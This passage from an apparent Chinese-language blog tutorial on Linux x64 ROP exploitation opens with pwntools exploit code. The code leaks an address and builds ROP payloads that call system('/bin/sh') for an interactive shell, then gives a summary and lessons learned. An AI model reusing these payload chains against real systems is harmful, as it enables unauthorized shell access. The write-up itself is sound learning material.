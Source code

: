 p.send(payload2)

sleep(1)
dl_runtime_resolve_xsave = u64(p.recv(8))
print "[+] the dl_runtime_resolve_xsave base address is " + hex(dl_runtime_resolve_xsave)

# payload3 to get shell use dl_runtime_resolve_xsave
# not use
payload3 = "\x90"*136 + p64(pop_rax_ret) + p64(system_addr) + p64(dl_runtime_resolve_xsave+49)
payload3 += p64(0) + p64(0) + p64(0) + p64(0) # rax=rcx=rdx=rsi=0
payload3 += p64(binsh_addr)
payload3 += p64(0) + p64(0) # r8=r9=0
payload3 += p64(0) + p64(0x0000002000000000) + p64(0) # xrstor [rsp+0x40]; 0x0000002000000000   0x0000000000000000

# payload4 to get shell use simple rop
payload4 = "\x90"*136 + p64(pop_rax_ret) + p64(system_addr)
payload4 += p64(pop_rdi_ret) + p64(binsh_addr)
payload4 += p64(call_rax)

print "[*] Begin to get shell..."
p.send(payload4)
p.interactive()</pre>

测试运行

![linux64rop]({{ '/images/201804/linux_64_rop_3_5.png' | prepend: site.baseurl }})

#### 0x04 总结 ####

在这次实践中，可能是由于环境问题无法完美的进行x64的利用，不过核心思路已经是明确，主要是通过内置的ROP，再配合内存地址泄漏，可以控制大部分的参数，最后调用函数，在蒸米的文章中还有介绍[调用mmap来执行任意shellcode](http://cb.drops.wiki/drops/binary-10638.html)(例如msf的反弹shell)

目前为止[Linux Simple Stack overflow](https://pench3r.github.io/2018/03/28/linux-simple-stack-overflow.html)、[DynELF && ROP](https://pench3r.github.io/2018/03/30/dynelf-rop.html)和[ret2libc && ROP](https://pench3r.github.io/2018/03/30/ret2libc-rop.html)介绍了基本的栈溢出漏洞的原理、ret2libc利用技术、应用程序常见的安全机制、ROP的构建和寻找、pwntools工具的使用、DynELF模块的使用、x86于x86_64位的区别、x64位如何通过ROP进行shellcode调用等技术，都算是一些基础算是pwn的基础出门了，了解这些后方便后续的学习，也会通过一些ctf的pwn题目做实战。

#### 0x05 踩过的坑 ####

- 程序接收的输入长度，影响自己的payload(这个在实践x64的时候大意没有考虑到，导致自己的payload总是差1字节)；
- 对于一些填充字节的计算一定要仔细(之前填充的字节少了一个x导致变成了多字符，而不是1个字节)
- 参考别人文章的时候可能工具的更新导致使用方法改变(查看官方手册去解决问题，准确效率高)
- 对于一些莫名的问题，需要多去搜集信息试错(在DynELF中的leak函数中之前一直设置成为vul_func，但是一直失败，设置成为main函数后就成功了)
- 多使用gdb来进行细节的追踪(可以发现自己错在哪里，很重要的一点)
- 使用msf生成payload如果测试失败，尝试再生成一个(每次生成的不太一样，可能由于你的payload中存在你不了解的错误字节导致)

以上总结的都是一些小问题，通过这些东西不断优化自己的细节，因为软件漏洞调试真的细节太多了!!!

KEEP GOING! :P









